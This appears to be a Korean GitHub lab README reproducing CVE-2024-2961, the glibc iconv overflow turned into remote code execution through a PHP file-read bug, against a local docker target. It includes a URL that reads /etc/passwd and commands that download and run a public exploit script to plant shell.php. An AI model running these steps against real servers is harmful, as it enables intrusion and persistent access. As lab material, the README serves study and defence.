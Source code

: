# 📌 CVE-2024-2961: PHP 파일 읽기를 통한 원격 코드 실행 취약점 (GNU C Library Iconv) 🛡️
**CVE-2024-2961**은 **PHP 애플리케이션**에서 **원격 코드 실행**(RCE)을 가능하게 하는 취약점이다.  
이 취약점은 **GNU C 라이브러리**(glibc)의 **iconv() 함수**에서 발생하며, 그로 인해 **버퍼 오버플로우**와 **원격 코드 실행**(RCE) 공격이 가능하다.  
  
<br>

## 📚 Table of Contents
- [취약점 개요 (Vulnerability Overview) 🛡️](#%EF%B8%8F-%EC%B7%A8%EC%95%BD%EC%A0%90-%EA%B0%9C%EC%9A%94-vulnearability-overview)
- [취약점 영향 (Impact) ⚠️](#%EF%B8%8F-%EC%B7%A8%EC%95%BD%EC%A0%90-%EC%98%81%ED%96%A5-impact)
- [취약한 환경 설정 (Vulnerable Environment) ⚙️](#%EF%B8%8F-%EC%B7%A8%EC%95%BD%ED%95%9C-%ED%99%98%EA%B2%BD-%EC%84%A4%EC%A0%95-vulnerable-environment)
- [취약점 악용 (Exploit) 👾](#-취약점-악용-exploit)
- [PoC 코드 개요 (PoC Summary) 💻](#-poc-%EC%BD%94%EB%93%9C-%EA%B0%9C%EC%9A%94poc-summary)
- [취약점 악용 흐름도 (Exploit Flow Diagram) ⏳](#-취약점-악용-흐름도-exploit-flow-diagram)

<br>

## 🛡️ 취약점 개요 (Vulnearability Overview)
**GNU C 라이브러리**(glibc)는 호환성, 이식성, 높은 성능을 자랑하는 ISO C 라이브러리이다.  
**CVE-2024-2961**은 GNU C 라이브러리 **2.39 이하** 버전에서 발생하는 취약점으로, `iconv()` 함수에서 발생한다.  
특히, 문자열을 **ISO-2022-CN-EXT** 문자 집합으로 변환할 때, 출력 버퍼가 최대 **4바이트까지 오버플로우**되어 애플리케이션 충돌을 일으키거나 변수를 덮어쓸 수 있다.  
이 취약점은 **PHP 애플리케이션의 파일 읽기 취약점**과 결합되면서, 공격자가 **원격 코드 실행**(RCE) 공격을 수행할 수 있게 만든다.  

**참고문헌:**
- https://www.ambionics.io/blog/iconv-cve-2024-2961-p1

<br>

## ⚠️ 취약점 영향 (Impact)
- **버퍼 오버플로우**: 오버플로우로 인해 애플리케이션 충돌이나 메모리 손상이 발생할 수 있다.
- **원격 코드 실행**: 이 취약점을 악용하면 공격자가 원격에서 임의의 코드를 실행할 수 있다.

<br>

## ⚙️ 취약한 환경 설정 (Vulnerable Environment)
다음 명령어를 실행하여 **PHP 8.3.4** 서버와 **iconv 2.36** 버전이 포함된 환경을 시작한다:
   ```bash
   docker compose up -d
   ```
   서버가 시작되면, 브라우저에서 http://localhost:8080/index.php?file=/etc/passwd를 통해 /etc/passwd 파일을 읽을 수 있다.  

<br>

## 👾 취약점 악용 (Exploit)
1. 취약점을 악용하려면, Linux 기반 시스템과 **Python 3.10** 이상이 필요하다.
2. 필요한 종속성을 설치한다:
   ```bash
   pip install pwntools
   pip install https://github.com/cfreal/ten/archive/refs/heads/main.zip
   ```
3. PoC를 다운로드하고 실행한다:

   ```bash
   wget https://raw.githubusercontent.com/ambionics/cnext-exploits/main/cnext-exploit.py
   python cnext-exploit.py http://localhost:8080/index.php "echo '<?=phpinfo();?>' > shell.php"
   ```

   ❗주의: 만약 `localhost`가 작동하지 않는다면, 대신 자신의 IP 주소를 사용해야 한다.
   
   💡참고: 자신의 IP 주소는 `ipconfig` 명령어를 사용하여 확인할 수 있다.

     - Linux 환경에서는 `eth0` 인터페이스에서 IP를 확인할 수 있다.
       
   예를 들어, 자신의 IP 주소가 `192.168.1.100`이라면 아래와 같이 입력한다:
   ```bash
   python cnext-exploit.py http://192.168.1.100:8080/index.php "echo '<?=phpinfo();?>' > shell.php"
   ```
   `your-ip`는 `ipconfig` 명령어를 통해 확인한 실제 IP 주소로 바꿔야 한다.

   ![image](https://github.com/user-attachments/assets/83b19dd0-48bd-42d0-a45d-891851d44651)
    이처럼 shell.php가 성공적으로 작성된다.
   
4. 브라우저에서 `shell.php`를 확인한다.
   ```bash
   http://localhost:8080/shell.php
   ```
   ![image](https://github.com/user-attachments/assets/96357e65-63ff-4313-ba5d-c553cd743d37)
   위와 같이 `shell.php`가 잘 실행된다.

<br>

## 💻 PoC 코드 개요(PoC Summary)
`cnext-exploit.py`는 대상 서버의 **파일 읽기 취약점**을 이용하여, **glibc iconv 버그**를 트리거하고 **원격 코드 실행(RCE)**을 달성하는 익스플로잇 스크립트이다.

- 서버가 지원하는 PHP 스트림(wrapper) 기능 (`php://filter', 'zlib.inflate' 등)을 이용하여 서버 메모리를 조작한다.
- `/proc/self/maps` 파일을 통해 PHP 프로세스의 메모리 레이아웃(libc, 힙 주소 등)을 수집한다.
- `iconv()` 함수의 버퍼 오버플로우 취약점을 이용하여 메모리 구조를 덮어쓰고, 시스템 명령어 실행이 가능하도록 한다.
- 최종적으로 서버에 원하는 PHP 파일(`shell.php`)을 생성하여, 원격에서 명령어를 실행할 수 있다.

<br>

## ⏳ 취약점 악용 흐름도 (Exploit Flow Diagram)
```text
1. 환경 구성(PHP 8.34 + iconv 2.36)
2. /etc/passwd 파일 읽기 확인
3. PoC 스크립트 실행 (cnext-exploit.py)
4. shell.php 파일 생성
5. shell.php 접속 및 명령어 실행
6. 원격 코드 실행(RCE) 성공
```
